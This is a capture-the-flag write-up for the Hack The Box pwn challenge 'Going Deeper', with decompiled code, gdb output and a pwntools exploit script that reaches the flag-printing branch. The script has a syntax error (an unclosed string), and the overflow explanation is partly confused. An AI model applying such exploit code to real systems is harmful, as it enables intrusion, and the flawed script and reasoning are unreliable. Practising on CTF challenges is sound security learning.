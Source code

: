 # HTB PWN: Going Deeper

### Tools: Ghidra, Python

### Vulnerability: Stack Overflow

### Description: We are inside D12! We bypassed the scanning system, and now we are right in front of the Admin Panel. The problem is that there are some safety mechanisms enabled so that not everyone can access the admin panel and become the user right below Draeger. Only a few of his intergalactic team members have access there, and they are the mutants that Draeger trusts. Can you disable the mechanisms and take control of the Admin Panel?

Alright this was one of the first PWN that I have ever done and I could not have got as far as I did without some help with python scripting.

From the decompilation of admin_panel in Ghidra we can see that if we can get the printf function to spit out welcome admin then the system will cat the flag.txt file. This was not a simple find and decipher password as I had thought after moving over from reverse engineering and was kind of surprised. This flag can only be captured by performing a buffer overflow.
Upon closer inspection on line 27 we can see there is a read function with 0x39 (57 decimals) meaning this line can read a total of 57 chars. However on line 29 strncmp will only accept 52 chars. This is where we can do our buffer overflow.


```cs
void admin_panel(long param_1,long param_2,long param_3)

{
  int iVar1;
  char local_38 [40];
  long local_10;
  
  local_10 = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld]. \n[*] If you want to continue, disable the mechanism or login as admin.\n"
         ,param_1,param_2,param_3);
  while (((local_10 != 1 && (local_10 != 2)) && (local_10 != 3))) {
    printf(&DAT_004014e8);
    local_10 = read_num();
  }
  if (local_10 == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (local_10 != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
  read(0,local_38,0x39);
  if (((param_1 == 0xdeadbeef) && (param_2 == 0x1337c0de)) && (param_3 == 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",local_38,0x34);
    if (iVar1 != 0) {
      printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
      system("cat flag*");
      goto LAB_00400b38;
    }
  }
  printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}
```


Before we move on we need one last thing. If we use gdb on the file and then info func we can find the system call that will cat the flag. ( This is listed on line 36 in the decompiler)

```scala
pwndbg> info func
All defined functions:

Non-debugging symbols:
0x00000000004006b8  _init
0x00000000004006e0  strncmp@plt
0x00000000004006f0  puts@plt
0x0000000000400700  system@plt
0x0000000000400710  printf@plt
0x0000000000400720  alarm@plt
0x0000000000400730  read@plt
0x0000000000400740  srand@plt
0x0000000000400750  time@plt
0x0000000000400760  setvbuf@plt
0x0000000000400770  strtoul@plt
0x0000000000400780  exit@plt
0x0000000000400790  rand@plt
0x00000000004007a0  _start
0x00000000004007d0  _dl_relocate_static_pie
0x00000000004007e0  deregister_tm_clones
0x0000000000400810  register_tm_clones
0x0000000000400850  __do_global_dtors_aux
0x0000000000400880  frame_dummy
0x0000000000400887  read_num
0x00000000004008dd  banner
0x000000000040099c  setup
0x00000000004009e9  admin_panel
0x0000000000400b47  main
0x0000000000400ba0  __libc_csu_init
0x0000000000400c10  __libc_csu_fini
0x0000000000400c14  _fini
pwndbg> disassemble system
Dump of assembler code for function system@plt:
   0x0000000000400700 <+0>:	jmp    QWORD PTR [rip+0x20189a]        # 0x601fa0 <system@got.plt>
   0x0000000000400706 <+6>:	push   0x2
   0x000000000040070b <+11>:	jmp    0x4006d0
End of assembler dump.
pwndbg> 
```




Listed here is what I wrote to print the flag. You can see the system call we just recieved from gdb and the string of code we are going to send with a null byte included to cause our buffer overflow. Voila we have the flag!
```python
#!/usr/bin/python3
from pwn import *

context(os='linux', arch='amd64')
libc = ELF('/home/htb-0xrogue/Downloads/challenge/glibc/libc.so.6')
e = ELF('sp_going_deeper')
context.binary = e
p = e.process()
#p = remote("", )
#junk = b"DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ftA\x00"
system_call = p64(0x400700)
p.sendline(b"2")
#p.recvline()
#payload = junk + system_call
#raw_input()
#p.sendline(payload)
p.sendline("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ftA\x00)
p.recvline()
p.interactive()
```
Summary: Definitely not what I was ready for and I got a crash course in buffer overflow and how to spot it. Some of the code in the Python script is leftover from the challenge and it was required to establish a tcp connection to launch the binary.

# NOTE: THIS IS FOR THE CTF VERSION OF THE BINARY!!!
